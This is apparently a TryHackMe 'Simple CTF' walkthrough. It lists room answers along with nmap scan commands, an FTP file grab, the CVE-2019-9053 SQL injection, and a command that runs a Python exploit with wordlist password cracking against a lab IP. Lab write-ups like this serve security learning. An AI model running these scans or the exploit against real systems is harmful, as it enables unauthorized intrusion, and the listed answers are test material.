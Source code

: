 # Simple CTF

```
export ip=10.10.208.204
```

# 1. How many services are running under port 1000?

```json
run nmap scan on machine using -sC -sV 
```
```nmap -sC -sV -oN nmap/initial 10.10.208.204
```

```
2
```

# 2. What is running on the higher port?

```json
we will use -p 0-9999 to specify scan ports from 0 to 9999 in nmap
```

```nmap -p 0-9999 -oN nmap/all_ports 10.10.208.204
```

```
ssh
```
	
```json
I ftp into 10.10.208.204 and found ForMitch.txt and grabbed it to my host using get
```	

# 3. What's the CVE you're using against the application? 

```json
searched for exploits against the web servers host template version (2.2.8) and found CVE-2019-9053
```

```
CVE-2019-9053
```

# 4. To what kind of vulnerability is the application vulnerable?

```json
the exploit was a SQL Injection and since tryhackme states the answer is 4 letters it should be SQLi
```

```
SQLi
```

# 5. What's the password?

```json
we run the python exploit and specify the rhosts and using --crack we will attempt to crack the password using a wordlist in this case best110.txt
```

```python3 exploit.py -u http://10.10.208.204/simple --crack -w /thm/best110.txt 
```

```

```

